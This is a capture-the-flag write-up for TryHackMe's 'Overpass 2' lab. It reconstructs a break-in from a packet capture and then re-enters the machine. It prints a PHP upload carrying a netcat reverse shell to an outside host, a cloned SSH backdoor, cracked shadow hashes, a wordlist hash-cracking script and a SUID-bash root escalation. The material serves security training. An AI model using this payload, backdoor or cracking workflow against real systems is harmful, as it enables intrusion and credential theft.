





---

Name: Overpass 2
Difficulty: Easy
URL: https://tryhackme.com/room/overpass2hacked

---

# Task 1: Forensics - Analyse the PCAP
Description:
```txt
Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?
```

We have a PCAP file, let's take a look at it

## What was the URL of the page they used to upload a reverse shell?
We find this POST request 



```txt
/development/
```

## What payload did the attacker use to gain access?
We copy the POST request and take a look at it

```http
+5P,POST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--
;> [!WARNING]
> 
```

Here we can find the payload used
```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

## What password did the attacker use to privesc?
We follow the TCP steam between the attacker and the server and find the password in plain sight





```bash
whenevernoteartinstant
```

## How did the attacker establish persistence?
We can see that he cloned a repository for a backdoor

```bash
git clone https://github.com/NinjaJc01/ssh-backdoor
```

## Using the fasttrack wordlist, how many of the system passwords were crackable?
We get the contents of /etc/passwd and store them in passwords.txt
```txt
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

Lastly we use john to see how many were crackable
```bash
john --wordlist=fasttrack.txt passwords.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX-512 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 32 OpenMP threads
Note: Passwords longer than 26 [worst case UTF-8] to 79 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Warning: Only 223 candidates buffered, minimum 256 needed for performance.
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
4g 0:00:00:00 DONE (2026-07-14 17:21) 33.33g/s 1858p/s 9291c/s 9291C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

# Task 2: Research - Analyse the code
## What's the default hash for the backdoor?
We look through the github repo and find it in the main.go file



## What's the hardcoded salt for the backdoor?
Again, looking at main.go we find with CTRL + F (searching for salt) this function, which uses the salt
```go
func verifyPass(hash, salt, password string) bool {
	resultHash := hashPassword(password, salt)
	return resultHash == hash
}
```

Checking where it was called we find the hardcoded salt
```go
func passwordHandler(_ ssh.Context, password string) bool {
	return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
```

## What was the hash that the attacker used? - go back to the PCAP for this!
We look at how he ran the backdoor
```bash
james@overpass-production:~/ssh-backdoor$ 
./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

## Crack the hash using rockyou and a cracking tool of your choice. What's the password?
We know it's a SHA512 hash, calculated using a salt

First, we store it as <sha512_hash>$<salt>
```bash
echo -n '6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed$1c362db832f3f864c8c2fe05f2002a05' > ssh.hash
```

We could use john, but I decided to use this python script
```python
import hashlib

target = "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed"
salt = "1c362db832f3f864c8c2fe05f2002a05"

with open("/usr/share/wordlists/rockyou.txt", "rb") as f:
    for line in f:
        pw = line.rstrip(b"\r\n")
        if hashlib.sha512(pw + salt.encode()).hexdigest() == target:
            print("FOUND:", pw.decode(errors="ignore"))
            break
```

And it ran really fast
```bash
python3 exploit.py
FOUND: november16
```

# Task 3: Attack - Get back in!
## The attacker defaced the website. What message did they leave as a heading?
We just view the website



## Using the information you've found previously, hack your way back in!
We ssh using the password found earlier
```bash
ssh -p2222 james@10.113.128.216 -oHostKeyAlgorithms=+ssh-rsa
The authenticity of host '[10.113.128.216]:2222 ([10.113.128.216]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.113.128.216]:2222' (RSA) to the list of known hosts.
james@10.113.128.216's password: november16
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ 

```

## What's the user flag?
```bash
james@overpass-production:/home/james$ cat user.txt
thm{REDACTED}
```

## What's the root flag?
Looking or SUID files we find .suid_bash
```bash
find / -perm -4000 2> /dev/null
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/bin/mount
/bin/fusermount
/bin/su
/bin/ping
/bin/umount
/home/james/.suid_bash
```

We run it and become root
```bash
./.suid_bash -p
.suid_bash-4.4# whoami
root
```

Now we can read the flag
```bash
.suid_bash-4.4# cat /root/root.txt
thm{REDACTED}

```
